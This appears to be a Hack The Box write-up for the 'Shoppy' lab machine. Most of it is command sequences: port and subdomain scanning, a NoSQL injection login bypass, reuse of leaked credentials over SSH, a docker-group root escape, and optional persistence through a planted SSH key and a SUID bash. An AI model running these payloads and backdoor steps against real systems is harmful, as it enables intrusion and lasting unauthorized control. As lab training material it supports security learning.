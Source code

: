 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.180
nmap -p 22,80,9093 -sCV 10.10.11.180
```

### Hosts File
```bash
echo "10.10.11.180 shoppy.htb mattermost.shoppy.htb" | sudo tee -a /etc/hosts
```

### Subdomain Fuzzing
```bash
wfuzz -u http://10.10.11.180 -H "Host: FUZZ.shoppy.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 169
```

### [Feroxbuster](HTTP)
```bash
feroxbuster -u http://shoppy.htb
```

---

## 🔑 NoSQL Auth Bypass

### Target: `/login`
**Bypass Payload (URL-Encoded or Raw)**:
```bash
username=admin'||'a'=='a&password=admin
```

**Headers**:
```http
Content-Type: application/x-www-form-urlencoded
```

### Dump Users via Injection:
```bash
username=admin' || 1==1 //&password=123
```

### Decode MD5 Hash on [CrackStation](https://crackstation.net)

---

## 💬 Mattermost Access

### Use Found Creds
- **User**: josh
- **Pass**: `remembermethisway`

### Locate SSH Creds for `jaeger` in "Deploy Machine" Channel:
- `user: jaeger`
- `pass: Sh0ppyBest@pp!`

---

## 🔐 [SSH](SSH) Access

```bash
sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@shoppy.htb
```

---

## 🧑‍💼 PrivEsc to Deploy

### Sudo Check
```bash
sudo -l
```

### Path Found
```bash
sudo -u deploy /home/deploy/password-manager
```

### Reverse Engineering

**Pull Binary:**
```bash
scp jaeger@shoppy.htb:/home/deploy/password-manager .
```

**Extract Password:**
Use Ghidra OR:
```bash
strings -el password-manager
```

**Result**:
```text
Password: Sample
```

**Use it:**
```bash
sudo -u deploy /home/deploy/password-manager
# --> Deploying@pp!
```

**Switch User:**
```bash
su deploy
```

---

## 🐳 Root via Docker Group

### Confirm Docker Access
```bash
id
docker images
```

### Method 1: Mount Host Filesystem (Basic)
```bash
docker run --rm -it -v /:/mnt alpine /bin/sh
```

### Method 2: chroot Escape to Host (Recommended)
```bash
docker run --rm -it -v /:/mnt alpine chroot /mnt sh
```

### Get Flag
```bash
cat /root/root.txt
```

---

## 🪝 Optional Root Persistence

### SSH Access via Public Key (From Container)
```bash
mkdir /root/.ssh
echo "ssh-ed25519 AAAA...user@host" > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

### Or Make Bash SUID
```bash
chmod 4777 /bin/bash
bash -p
```

---

## 🔬 Beyond Root: NoSQL Injection Logic

### Original Code Equivalent:
```js
this.username == 'admin' || 'a'=='a' && this.password == 'pass'
```

### Precedence Breakdown:
```text
true || (true && false) => true
```